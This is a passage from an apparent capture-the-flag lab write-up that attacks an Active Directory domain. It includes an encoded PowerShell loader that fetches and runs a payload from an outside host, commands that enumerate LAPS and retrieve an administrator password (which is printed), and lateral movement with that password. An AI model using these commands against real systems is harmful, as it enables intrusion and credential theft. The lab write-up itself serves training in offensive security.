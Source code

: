 ```powershell
$str = 'IEX(IWR -Uri http://10.10.2.15:80/bypass -UseBasicParsing);Invoke-WebRequest -Uri "http://10.10.2.15:80/c.exe" -OutFile "$env:TEMP\file.exe"; Start-Process -FilePath "$env:TEMP\file.exe" -Wait'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
```powershell
powershell -ep bypass -enc <base64-encoded-payload>
```

#### 7. Importing PowerView
Enumerate the domain using PowerView into the obtained beacon:

```powershell
powershell-import /Users/ahmedpinger/Documents/Tools/PowerSploit/Recon/PowerView.ps1
```

#### 8. Enumerating LAPS
Use LAPSToolkit to find machines with LAPS enabled and retrieve the password on the wkstn1 beacon:

```powershell
powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | fl ObjectDn, SecurityIdentifier
powerpick ConvertFrom-SID [SecurityIdentifier]
powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
powerpick Find-LAPSDelegatedGroups
powershell Find-LapsADExtendedRights
```
Retrieve the LAPS password:

```powershell
powershell-import /Users/ahmedpinger/Documents/Tools/PowerSploit/Recon/PowerView.ps1
powerpick Get-DomainComputer -Identity wkstn1 -Properties ms-Mcs-AdmPwd
```
- **Password Obtained**: `2gy)+VAxhTtA@R`

#### 9. Lateral Movement
Spawn a shell on the target machine:

```powershell
spawnas wkstn1\Administrator 2gy)+VAxhTtA@R smb
```

#### 10. Capturing the Flag
Read the flag file:

```powershell
powershell type C:\Users\Administrator\Desktop\flag.txt
```
- **Flag**: `flag{Passback_Attack_and_LAPS}`

---
## Flag 2

1. **ASREPRoasting Attack**:
   - Execute ASREPRoasting attack on the captured beacon.

